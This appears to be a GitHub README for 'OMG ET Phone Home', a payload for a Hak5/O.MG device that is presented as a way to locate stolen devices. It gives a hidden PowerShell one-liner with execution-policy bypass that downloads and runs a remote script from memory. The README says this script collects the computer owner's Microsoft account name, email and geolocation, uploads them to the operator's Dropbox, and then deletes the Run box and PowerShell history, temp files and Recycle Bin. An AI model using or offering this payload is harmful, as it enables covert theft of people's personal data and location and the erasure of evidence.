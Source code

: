 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG ET Phone Home

A script I put together to locate your stolen devices, or your "stolen" baited devices

## Description

This program is meant to locate your devices. Save the execution file on the boot partition of your devices and when someone plugs it into their computer
Using a one liner in the run box a script will be downloaded and executed that grabs the Name and email of the associated microsoft account and the 
latitude and longitude of where the device was activated. This information is stored in a text document that is then uploaded to your dropbox. 
Finally the end of the script will delete the runbox and powershell history and delete the files in the TMP Folder and Recycle Bin. 

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 7,10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Your device is plugged into the targets computer
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory if your intended wifi network is not detected with the
  geofencing options
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The OMG device will attempt to detect the Wifi Access point you designated, if it does not.. 
* A one liner in the run box will download and execute the ET-Phone-Home Script 
* This script will get the Name and Email associated with the microsoft account of the persons computer your device connected to 
* The latitude and longitude of where the device was when it was activated will also be collected 
* This gathered information will be saved to a text file in the TMP Directory 
* That file will be uploaded to your DropBox cloud storage 

Something Like What you see below will be in your cloud storage:

NAME

EMAIL 

LATITUDE AND LONGITUDE

```
Jakoby

jakoby@example.com

 Latitude  Longitude
 --------  ---------
37.778919 -122.416313
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Kalani


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-ET-Phone-Home)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
